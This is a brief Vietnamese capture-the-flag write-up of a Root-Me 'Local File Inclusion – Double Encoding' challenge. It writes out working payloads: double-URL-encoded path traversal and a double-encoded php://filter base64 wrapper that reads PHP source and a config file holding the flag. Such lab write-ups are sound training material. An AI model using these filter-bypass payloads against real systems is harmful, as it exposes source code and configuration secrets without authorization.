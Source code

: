 # [Local File Inclusion – Double Encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

![](./media/image1.png)

Fuzz với **Path Traversal**, ta thấy web server block hoặc filter `‘../’`:

![](./media/image2.png)

Tên challenge là **LFI – Double Encoding URL Double Encoding**. Ta convert `../` --> `%252E%252E%252F` () `%252E = .` ; `%252F = /`)

Đưa vào `?page=[value]` ta được:

![](./media/image3.png)

Đến đây, sau khi append bất kỳ text nào thì server sẽ concat **text.inc.php**:

![](./media/image4.png)

Dạo quanh **index.html** và homepage thì không phát hiện bất kỳ điều gì đặc biệt. Tương tự các bài LFI khác, ta cần get source để xem tác giả đặt gì trong web. Khi xem về cách get source php, ta có payload get như sau:

`?page=php://filter/convert.base64-encode/resource=[source_file]`

Giờ thì đưa vào payload ta để get source ở **home.inc.php**:

`?page=php://filter/convert.base64-encode/resource=home`

Double encoding: `?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`

![](./media/image5.png)

Bỏ vào base64 decode:

![](./media/image6.png)

View source không tìm được gì đặc biệt. Tuy vậy, website đã sử dụng thư viện từ **conf.inc.php**. Từ đó, tiến hành xem thử **conf.inc.php**:

`?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

![](./media/image7.png)

Flag xuất hiện trong **conf.inc.php**:

![](./media/image8.png)

- Flag: "****************************"
